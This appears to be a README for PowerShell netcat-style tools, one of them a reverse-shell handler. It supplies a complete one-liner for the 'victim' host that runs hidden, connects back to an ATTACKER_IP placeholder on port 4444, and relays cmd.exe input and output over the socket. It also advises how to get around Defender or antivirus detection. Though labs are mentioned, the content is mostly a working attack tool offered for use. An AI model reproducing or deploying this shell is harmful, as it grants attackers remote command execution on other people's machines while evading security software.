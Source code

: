 ## nc.ps1
### Usage Examples
Start a Listener (server mode)
``` .\nc.ps1 -Mode listen -Port 4444```

Connect to a Host (client mode)
```.\nc.ps1 -Mode connect -Host 10.50.0.61 -Port 4444 ```

🔹 Features
- Works interactively like nc for text.
- Server waits for one connection and spawns an interactive session.
- Async background job reads from the socket while you can type commands.
- Good for chat-style testing or simple reverse shell handling in labs.

⚠️ Limitations:
This version handles text only (line-based).
Doesn’t support UDP or raw binary streams like the real nc.
If you want reverse shell handling (executing commands), you’d need to extend it to call cmd.exe or powershell.exe with redirected streams.

## nc-revshell.ps1

### Usage (attacker):
``` .\nc-revshell.ps1 -Port 4444 ```

Target (victim/lab host) connect-back one-liner (PowerShell)
Replace ATTACKER_IP and PORT:
```
powershell -NoP -W Hidden -Command "$c=New-Object Net.Sockets.TcpClient('ATTACKER_IP',4444);$s=$c.GetStream();$p=New-Object Diagnostics.Process;$si=$p.StartInfo;$si.FileName='cmd.exe';$si.UseShellExecute=0;$si.RedirectStandardInput=1;$si.RedirectStandardOutput=1;$si.RedirectStandardError=1;$p.Start()|Out-Null;Start-Job{param($o,$n)$b=new-object byte[] 4096;while(($r=$o.BaseStream.Read($b,0,$b.Length)) -gt 0){$n.Write($b,0,$r);$n.Flush()}} -ArgumentList $p.StandardOutput,$s|Out-Null;Start-Job{param($e,$n)$b=new-object byte[] 4096;while(($r=$e.BaseStream.Read($b,0,$b.Length)) -gt 0){$n.Write($b,0,$r);$n.Flush()}} -ArgumentList $p.StandardError,$s|Out-Null;$b=new-object byte[] 4096;while(($r=$s.Read($b,0,$b.Length)) -gt 0){$p.StandardInput.BaseStream.Write($b,0,$r);$p.StandardInput.BaseStream.Flush()}"
```
Notes
This is TCP only, line/binary safe, and works well for Windows cmd.exe.
If you want PowerShell instead of cmd.exe, change FileName to powershell.exe.
If Defender/AV flags background jobs, swap jobs for threads/tasks; functionally identical.
